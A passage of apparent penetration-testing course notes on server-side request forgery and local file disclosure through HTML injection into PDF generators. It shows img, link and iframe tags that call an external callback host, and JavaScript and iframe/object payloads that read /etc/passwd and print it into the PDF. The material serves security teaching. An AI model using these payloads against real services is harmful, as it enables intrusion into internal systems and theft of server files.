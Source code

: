 

One of the most common vulnerabilities in combination with PDF generation is Server-Side Request Forgery (SSRF). 

Since HTML documents commonly load resources such as stylesheets or images from external sources, displaying an HTML document inherently requires the server to send requests to these external sources to fetch them. Since we can inject arbitrary HTML code into the PDF generator's input, we can force the server to send such a GET request to any URL we choose, including internal web applications.

We can inject many different HTML tags to force the server to send an HTTP request. For instance, we can inject an image tag pointing to a URL under our control to confirm SSRF. As an example, we are going to use the img tag with a domain from Interactsh:

Code: html
```
<img src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest1"/>
```

Similarly, we can also inject a stylesheet using the link tag:

Code: html
```
<link rel="stylesheet" href="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest2" >
```
Generally, for images and stylesheets, the response is not displayed in the generated PDF such that we have a blind SSRF vulnerability which restricts our ability to exploit it. However, depending on the (mis-)configuration of the PDF generation library, we can inject other HTML elements that can trigger a request and make the server display the response. An example of this is an iframe:

Code: html
```
<iframe src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest3"></iframe>
```
##
##

```
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>
```
##
##
```
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(btoa(this.responseText))
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>
```

##
##
```
<script>
	function addNewlines(str) {
		var result = '';
		while (str.length > 0) {
		    result += str.substring(0, 100) + '\n';
			str = str.substring(100);
		}
		return result;
	}

	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(addNewlines(btoa(this.responseText)))
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>
```

##
##

Without JavaScript Execution
If the backend does not execute our injected JavaScript code, we must use other HTML tags to display local files. We can try the following payloads:

Code: html
```
<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500">
<portal src="file:///etc/passwd" width="800" height="500">
